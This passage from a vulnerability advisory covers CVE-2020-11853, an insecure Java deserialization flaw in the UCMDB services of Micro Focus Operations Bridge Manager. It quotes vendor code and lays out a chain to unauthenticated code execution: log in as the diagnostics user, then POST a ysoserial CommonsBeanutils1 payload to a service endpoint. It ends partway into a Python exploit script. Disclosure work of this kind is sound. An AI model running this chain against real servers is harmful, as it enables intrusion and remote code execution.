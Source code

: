 In practice it works in the following way: the services listed above (for example *SecurityService*) are implemented in a way that allows remote method invocations. The snippet below contains code from the *SecurityService* implementation (*com.hp.ucmdb.uiserver.services.cmdb.impl.SecurityServiceImpl*):

```java
  public boolean isServerAdministrator() {
    try {
      UcmdbServiceInternal sdk = (UcmdbServiceInternal)ServerContext.get().executeInSessionlessContext(this.sessionContext.getSessionInfo().getCustomerContext(), new SessionlessContextExecutable<UcmdbServiceInternal>() {
            public UcmdbServiceInternal run(SessionContext sessionContext) {
              return sessionContext.getCmdbConnector().getSdk();
            }
          });
      UserId userId = this.sessionContext.getSessionInfo().getLoggedInUserId();
      return sdk.getAuthorizationModelServiceInternal().isServerAdministrator(userId);
    } catch (CmdbException e) {
      LOG.error("User could not be found in URM", (Throwable)e);
      return false;
    } catch (Exception e) {
      LOG.error("Error to get ServerAdministrator from URM", e);
      return false;
    } 
  }
```
> Snippet C: *com.hp.ucmdb.uiserver.services.cmdb.impl.SecurityServiceImpl.isServerAdministrator()*

As it can be seen above, this method returns whether the logged in user is an Administrator or not. In order for this method to be invoked remotely, we have to use send the serialized method invocation request over an HTTP POST request. These are Java serialized objects by default, which get picked up by the aforementioned *HttpInvokerServiceExporter* Spring Remoting class and then passed on to the implemented services.

While all the endpoints above implement different functionality and services, they can all be attacked in the same way. Each service class listed above might have a few or dozens of methods, and it is likely that many more (non-deserialization) vulnerabilities are lurking there.

If these flaws are chained with **Vulnerability #1**, an unauthenticated attacker can easily execute code in the OBM host. In order to achieve this, the following steps are necessary:

1. Authenticate to UCMDB with the *diagnostics* user as shown in **Snippet A** and **Snippet B**
2. Create a *ysoserial CommonsBeanutils1* payload with the desired command
3. Send the payload in the POST body to */ucmdb-ui/services/SecurityService* (or any other service endpoint listed above), together with the *LWSSO_COOKIE_KEY* obtained in step 1

The following Python code performs all steps in this chain:

```python
#!/usr/bin/python3
#
## Exploit for Micro Focus Operations Bridge Manager 2020.05 UCMDB Services Insecure Java Deserialization (CVE-2020-11853)
## By Pedro Ribeiro (pedrib@agileinfosec.co.uk | @pedrib1337) from Agile Information Security
#
import sys
import os
import requests

def usage():
    print("Usage: ./obmPwn.py <RHOST> <YSOSERIAL_JAR> <COMMAND>")
    exit(1)

if len(sys.argv) < 4:
    usage()

rhost = sys.argv[1]
```
